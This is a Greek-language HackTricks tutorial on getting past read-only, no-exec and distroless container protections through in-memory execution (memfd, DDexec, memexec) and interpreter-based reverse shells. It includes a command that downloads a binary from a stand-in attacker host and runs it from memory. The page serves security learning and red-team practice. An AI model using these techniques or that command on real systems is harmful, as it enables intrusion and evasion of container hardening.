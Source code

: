 # Bypass FS protections: read-only / no-exec / Distroless

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Αν ενδιαφέρεστε για **καριέρα hacking** και να χακάρετε το μη χακαρισμένο - **προσλαμβάνουμε!** (_απαιτείται άπταιστη γραπτή και προφορική πολωνική_).

{% embed url="https://www.stmcyber.com/careers" %}

## Videos

Στα παρακάτω βίντεο μπορείτε να βρείτε τις τεχνικές που αναφέρονται σε αυτή τη σελίδα εξηγημένες πιο αναλυτικά:

* [**DEF CON 31 - Exploring Linux Memory Manipulation for Stealth and Evasion**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Stealth intrusions with DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## read-only / no-exec σενάριο

Είναι όλο και πιο συνηθισμένο να βρίσκουμε μηχανές linux που είναι τοποθετημένες με **προστασία συστήματος αρχείων μόνο για ανάγνωση (ro)**, ειδικά σε κοντέινερ. Αυτό συμβαίνει γιατί η εκτέλεση ενός κοντέινερ με σύστημα αρχείων ro είναι τόσο εύκολη όσο η ρύθμιση του **`readOnlyRootFilesystem: true`** στο `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Ωστόσο, ακόμα και αν το σύστημα αρχείων είναι τοποθετημένο ως ro, το **`/dev/shm`** θα είναι ακόμα εγγράψιμο, οπότε είναι ψευδές ότι δεν μπορούμε να γράψουμε τίποτα στο δίσκο. Ωστόσο, αυτός ο φάκελος θα είναι **τοποθετημένος με προστασία no-exec**, οπότε αν κατεβάσετε ένα δυαδικό αρχείο εδώ **δεν θα μπορείτε να το εκτελέσετε**.

{% hint style="warning" %}
Από την προοπτική μιας κόκκινης ομάδας, αυτό καθιστά **πολύπλοκο το να κατεβάσετε και να εκτελέσετε** δυαδικά αρχεία που δεν είναι ήδη στο σύστημα (όπως backdoors ή enumerators όπως το `kubectl`).
{% endhint %}

## Ευκολότερη παράκαμψη: Σενάρια

Σημειώστε ότι ανέφερα δυαδικά αρχεία, μπορείτε να **εκτελέσετε οποιοδήποτε σενάριο** εφόσον ο διερμηνέας είναι μέσα στη μηχανή, όπως ένα **shell script** αν το `sh` είναι παρόν ή ένα **python** **script** αν το `python` είναι εγκατεστημένο.

Ωστόσο, αυτό δεν είναι αρκετό για να εκτελέσετε το δυαδικό backdoor σας ή άλλα δυαδικά εργαλεία που μπορεί να χρειαστεί να εκτελέσετε.

## Παράκαμψη μνήμης

Αν θέλετε να εκτελέσετε ένα δυαδικό αρχείο αλλά το σύστημα αρχείων δεν το επιτρέπει, ο καλύτερος τρόπος να το κάνετε είναι να **το εκτελέσετε από τη μνήμη**, καθώς οι **προστασίες δεν ισχύουν εκεί**.

### Παράκαμψη FD + exec syscall

Αν έχετε μερικούς ισχυρούς κινητήρες σεναρίων μέσα στη μηχανή, όπως **Python**, **Perl**, ή **Ruby**, μπορείτε να κατεβάσετε το δυαδικό αρχείο για να το εκτελέσετε από τη μνήμη, να το αποθηκεύσετε σε έναν περιγραφέα αρχείου μνήμης (`create_memfd` syscall), ο οποίος δεν θα προστατεύεται από αυτές τις προστασίες και στη συνέχεια να καλέσετε μια **`exec` syscall** υποδεικνύοντας τον **fd ως το αρχείο προς εκτέλεση**.

Για αυτό μπορείτε εύκολα να χρησιμοποιήσετε το έργο [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). Μπορείτε να του περάσετε ένα δυαδικό αρχείο και θα δημιουργήσει ένα σενάριο στη δηλωμένη γλώσσα με το **δυαδικό αρχείο συμπιεσμένο και b64 κωδικοποιημένο** με τις οδηγίες για **αποκωδικοποίηση και αποσυμπίεση** σε έναν **fd** που δημιουργείται καλώντας την `create_memfd` syscall και μια κλήση στην **exec** syscall για να το εκτελέσετε.

{% hint style="warning" %}
Αυτό δεν λειτουργεί σε άλλες γλώσσες σεναρίων όπως η PHP ή το Node γιατί δεν έχουν καμία **προεπιλεγμένη μέθοδο για να καλέσουν ωμές syscalls** από ένα σενάριο, οπότε δεν είναι δυνατό να καλέσετε την `create_memfd` για να δημιουργήσετε τον **περιγραφέα μνήμης** για να αποθηκεύσετε το δυαδικό αρχείο.

Επιπλέον, η δημιουργία ενός **κανονικού fd** με ένα αρχείο στο `/dev/shm` δεν θα λειτουργήσει, καθώς δεν θα επιτρέπεται να το εκτελέσετε λόγω της **προστασίας no-exec**.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) είναι μια τεχνική που σας επιτρέπει να **τροποποιήσετε τη μνήμη της δικής σας διαδικασίας** αντικαθιστώντας την **`/proc/self/mem`**.

Επομένως, **ελέγχοντας τον κώδικα συναρμολόγησης** που εκτελείται από τη διαδικασία, μπορείτε να γράψετε ένα **shellcode** και να "μεταλλάξετε" τη διαδικασία για να **εκτελέσετε οποιονδήποτε αυθαίρετο κώδικα**.

{% hint style="success" %}
**DDexec / EverythingExec** θα σας επιτρέψει να φορτώσετε και να **εκτελέσετε** το δικό σας **shellcode** ή **οποιοδήποτε δυαδικό** από **μνήμη**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Για περισσότερες πληροφορίες σχετικά με αυτή την τεχνική, ελέγξτε το Github ή:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) είναι το φυσικό επόμενο βήμα του DDexec. Είναι ένα **DDexec shellcode demonised**, οπότε κάθε φορά που θέλετε να **τρέξετε ένα διαφορετικό δυαδικό αρχείο**, δεν χρειάζεται να επανεκκινήσετε το DDexec, μπορείτε απλά να τρέξετε το memexec shellcode μέσω της τεχνικής DDexec και στη συνέχεια να **επικοινωνήσετε με αυτόν τον δαίμονα για να περάσετε νέα δυαδικά αρχεία για φόρτωση και εκτέλεση**.

Μπορείτε να βρείτε ένα παράδειγμα για το πώς να χρησιμοποιήσετε το **memexec για να εκτελέσετε δυαδικά αρχεία από ένα PHP reverse shell** στο [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Με παρόμοιο σκοπό με το DDexec, η τεχνική [**memdlopen**](https://github.com/arget13/memdlopen) επιτρέπει έναν **ευκολότερο τρόπο φόρτωσης δυαδικών αρχείων** στη μνήμη για να τα εκτελέσετε αργότερα. Θα μπορούσε ακόμη και να επιτρέπει τη φόρτωση δυαδικών αρχείων με εξαρτήσεις.

## Distroless Bypass

### Τι είναι το distroless

Τα distroless containers περιέχουν μόνο τα **απαραίτητα ελάχιστα στοιχεία για να τρέξει μια συγκεκριμένη εφαρμογή ή υπηρεσία**, όπως βιβλιοθήκες και εξαρτήσεις χρόνου εκτέλεσης, αλλά αποκλείουν μεγαλύτερα στοιχεία όπως διαχειριστές πακέτων, shell ή συστήματα βοηθητικών προγραμμάτων.

Ο στόχος των distroless containers είναι να **μειώσει την επιφάνεια επίθεσης των containers εξαλείφοντας περιττά στοιχεία** και ελαχιστοποιώντας τον αριθμό των ευπαθειών που μπορούν να εκμεταλλευτούν.

### Reverse Shell

Σε ένα distroless container μπορεί να **μην βρείτε καν `sh` ή `bash`** για να αποκτήσετε μια κανονική shell. Δεν θα βρείτε επίσης δυαδικά αρχεία όπως `ls`, `whoami`, `id`... όλα όσα συνήθως τρέχετε σε ένα σύστημα.

{% hint style="warning" %}
Επομένως, **δεν θα** μπορείτε να αποκτήσετε μια **reverse shell** ή να **καταγράψετε** το σύστημα όπως συνήθως κάνετε.
{% endhint %}

Ωστόσο, αν το παραβιασμένο container τρέχει για παράδειγμα μια εφαρμογή flask, τότε το python είναι εγκατεστημένο, και επομένως μπορείτε να αποκτήσετε μια **Python reverse shell**. Αν τρέχει node, μπορείτε να αποκτήσετε μια Node rev shell, και το ίδιο με σχεδόν οποιαδήποτε **γλώσσα scripting**.

{% hint style="success" %}
Χρησιμοποιώντας τη γλώσσα scripting, μπορείτε να **καταγράψετε το σύστημα** χρησιμοποιώντας τις δυνατότητες της γλώσσας.
{% endhint %}

Αν δεν υπάρχουν **προστασίες `read-only/no-exec`**, μπορείτε να εκμεταλλευτείτε τη reverse shell σας για να **γράψετε στο σύστημα αρχείων τα δυαδικά σας αρχεία** και να τα **εκτελέσετε**.

{% hint style="success" %}
Ωστόσο, σε αυτού του είδους τα containers, αυτές οι προστασίες θα υπάρχουν συνήθως, αλλά μπορείτε να χρησιμοποιήσετε τις **προηγούμενες τεχνικές εκτέλεσης μνήμης για να τις παρακάμψετε**.
{% endhint %}

Μπορείτε να βρείτε **παραδείγματα** για το πώς να **εκμεταλλευτείτε κάποιες ευπάθειες RCE** για να αποκτήσετε reverse shells γλωσσών scripting και να εκτελέσετε δυαδικά αρχεία από τη μνήμη στο [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Αν ενδιαφέρεστε για μια **καριέρα hacking** και να χακάρετε το αχάκωτο - **προσλαμβάνουμε!** (_απαιτείται άπταιστη γραπτή και προφορική γνώση πολωνικών_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
